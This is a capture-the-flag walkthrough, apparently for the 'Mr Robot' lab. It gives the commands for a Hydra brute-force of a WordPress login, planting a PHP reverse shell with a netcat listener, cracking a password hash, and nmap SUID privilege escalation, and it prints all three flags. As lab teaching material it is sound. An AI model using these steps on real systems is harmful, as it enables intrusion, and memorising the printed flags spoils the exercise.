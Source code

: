 ### What is key 1?

Start by accessing the target web server in your browser:

![image](https://github.com/user-attachments/assets/fd597987-8534-45d5-8297-04abc1759206)

<span style="line-height:0.5;">&nbsp;</span>

Run an Nmap service scan to identify open ports and running services:
```BASH
sudo nmap -sV $ip
```
![image-1](https://github.com/user-attachments/assets/ba712126-39bc-4e74-b4b2-2ac09526c612)


<span style="line-height:0.5;">&nbsp;</span>

Use Gobuster to enumerate hidden directories:
```BASH
gobuster dir -u "http://$ip/" -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 64
```

![image-2](https://github.com/user-attachments/assets/c0906439-b18c-4e98-83c0-633241dc273f)

<span style="line-height:0.5;">&nbsp;</span>

The scan reveals a /login endpoint. Visiting it confirms the site is running WordPress:

![image-3](https://github.com/user-attachments/assets/a5d4e41e-7368-44d8-b076-8d437d2e12a9)

<span style="line-height:0.5;">&nbsp;</span>

Since it’s WordPress website, enumerate users with WPScan:
```BASH
wpscan --url http://$ip/ --enumerate u
```

<span style="line-height:0.5;">&nbsp;</span>

WPScan also reveals there is a `robots.txt` file. There is also the `fsocity.dic` file with a custom wordlist, likely generated from site content or JavaScript.

Navigate to `robots.txt`:  

![image-4](https://github.com/user-attachments/assets/3923ade3-3bbf-46a8-9ff7-58576e8c9d97)

<span style="line-height:0.5;">&nbsp;</span>

Accessing`key-1-of-3.txt` reveals key1:

![image-5](https://github.com/user-attachments/assets/7ee8f637-a48e-4145-b5fa-4795819cc086)

<pre>073403c8a58a1f80d943455fb30724b9</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is key 2?
![image-6](https://github.com/user-attachments/assets/26d9bee2-87ea-4ab7-bb5e-a1a78b248b29)  

The site is running WordPress 4.3.1, a version known to contain several critical vulnerabilities:
- Unauthenticated XSS  
- Privilege escalation  
- XML-RPC abuse  
- RCE via vulnerable plugins/themes
 
<span style="line-height:0.5;">&nbsp;</span>

By manually enumerating we can see that user elliot exists.  

![image-7](https://github.com/user-attachments/assets/da301e91-481f-4ddf-b482-3e382d2a124f)

Clean the wordlist to remove duplicates:
```BASH
sort -u fsocity.dic -o fsocity-cleaned.dic
```

<span style="line-height:0.5;">&nbsp;</span>

Use Hydra to brute-force the login credentials:
```BASH
hydra -l elliot -P fsocity-cleaned.dic -t 30 -f 10.10.247.94 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Incorrect"
```

![image-8](https://github.com/user-attachments/assets/503865e4-4ad4-474d-9ee4-572a19e2a285)

<pre>login:elliot  
password:ER28-0652</pre>

<span style="line-height:0.5;">&nbsp;</span>

In the Appearance > Editor section, locate content.php. Replace its contents with a PHP reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

<span style="line-height:0.5;">&nbsp;</span>

Start netcat listener:
```BASH
nc -lvnp 4444
```

Trigger the reverse shell by visiting:`http://$ip/wp-content/themes/twentyfifteen/content.php`. Once the reverse shell connects, stabilize it:
```BASH
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image-10](https://github.com/user-attachments/assets/cf89405f-9315-447c-8427-95c159a87094)

<span style="line-height:0.5;">&nbsp;</span>

Navigate to `home/robot` to find the second key file. However, it requires elevated privileges:

![image-11](https://github.com/user-attachments/assets/4f01df4a-0606-4653-b857-a83a1cef4d3a)

Check password.raw-md5 in the same directory:  

![image-12](https://github.com/user-attachments/assets/e7ddde02-70e1-4f11-a883-416d1b9b8e61)

Crack the hash using [CrackStation](https://crackstation.net/).

![image-13](https://github.com/user-attachments/assets/04b2824e-fc94-4fc4-bed9-00044ba36746)

<pre>abcdefghijklmnopqrstuvwxyz</pre>

<span style="line-height:0.5;">&nbsp;</span>

Switch user to robot:
```BASH
su robot
```

Now read the second key:  

![image-14](https://github.com/user-attachments/assets/1fbfbe93-60c7-46ab-aec1-0b82ab6d670a)

Second key: 
<pre>822c73956184f694993bede3eb39f959</pre>

<span style="line-height:0.5;">&nbsp;</span>

### What is key 3?
Check for SUID binaries:
```BASH
find / -perm -4000 -type f 2>/dev/null
```

<span style="line-height:0.5;">&nbsp;</span>

Use [GTFObins](https://gtfobins.github.io/) to exploit Nmap’s interactive mode for privilege escalation:
- Run Nmap in Interactive Mode:
```BASH
/usr/local/bin/nmap --interactive
```

- At the nmap> prompt, run:
```BASH
!sh
```

<span style="line-height:0.5;">&nbsp;</span>

Retrieve the final key:  

![image-15](https://github.com/user-attachments/assets/610b5c5f-1bb2-47b6-a461-9937a470fc4e)

![image-16](https://github.com/user-attachments/assets/2b0bacf0-74e3-4d8e-9e30-58b83e55d2bf)

<pre>04787ddef27c3dee1ee161b21670b4e4</pre>
